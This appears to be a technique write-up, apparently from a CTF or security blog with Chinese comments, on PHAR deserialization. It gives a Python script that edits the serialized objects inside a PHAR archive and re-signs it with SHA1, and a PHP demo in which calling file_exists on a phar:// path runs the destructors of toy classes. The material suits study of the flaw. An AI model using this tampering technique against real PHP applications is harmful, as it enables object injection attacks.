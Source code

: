 ```python
import hashlib


def resign(source="a.phar",target="out.phar"):
    phar=None
    with open(source,"rb") as f:
        phar=f.read()
    phar=phar.replace(b'i:1;O:5:',b'i:0;O:5:') #篡改phar包中的内容
    phar=phar.replace(b'asdf',b'1234') #篡改phar包中的内容
    phar=phar.replace(b'qwer',b'5678') #篡改phar包中的内容
    source=phar[:-28] #需要进行签名的数据
    GBMB=phar[-8:] #签名标志(通常都是sha1??)和GBMB标签
    signature=hashlib.sha1(source).digest() #sha1签名
    phar=source+signature+GBMB
    with open(target,"wb") as f:
        f.write(phar)

resign()
```

![](2021-12-06%2018-59-13%20的屏幕截图.png)

```php
<?php

class DemoA
{
    public $a;

    public function __destruct()
    {
        var_dump($this->a . "DemoA");
    }
}

class DemoB
{
    public $a;

    public function __destruct()
    {
        var_dump($this->a . "DemoB");
    }
}

$filename = "phar:///var/www/html/out.phar";
var_dump(file_exists($filename));
echo "<br>";
$filename = "phar:///var/www/html/a.phar";
```
